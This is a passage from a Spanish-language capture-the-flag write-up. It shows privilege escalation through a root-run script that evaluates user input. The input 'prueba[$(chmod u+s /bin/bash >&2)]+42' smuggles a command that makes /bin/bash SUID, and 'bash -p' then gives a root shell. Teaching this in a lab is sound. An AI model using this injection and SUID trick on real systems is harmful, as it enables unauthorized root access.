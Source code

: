 #### **¿Por qué funciona si el script se ejecuta como root?**

* Si este script es ejecutado por **root**, cualquier comando dentro de `$()` también se ejecuta con **privilegios de root**.
* `chmod u+s /bin/bash` solo puede ser ejecutado por `root`, pero en este caso, el usuario **aprovecha el script que ya está corriendo como root** para que lo haga por él.
* Después de la ejecución, `/bin/bash` se convierte en un binario SUID, lo que significa que **cualquier usuario puede abrir una sesión Bash con privilegios de root**

Info:

```
Enter guess: prueba[$(chmod u+s /bin/bash >&2)]+42
Correct
```

Y con esto vamos a comprobar que se haya aplicado correctamente.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que ha funcionado estableciendo los permisos `SUID` a la `bash`, por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Y con esto veremos que seremos el usuario `root`, por lo que habremos termiando la maquina.
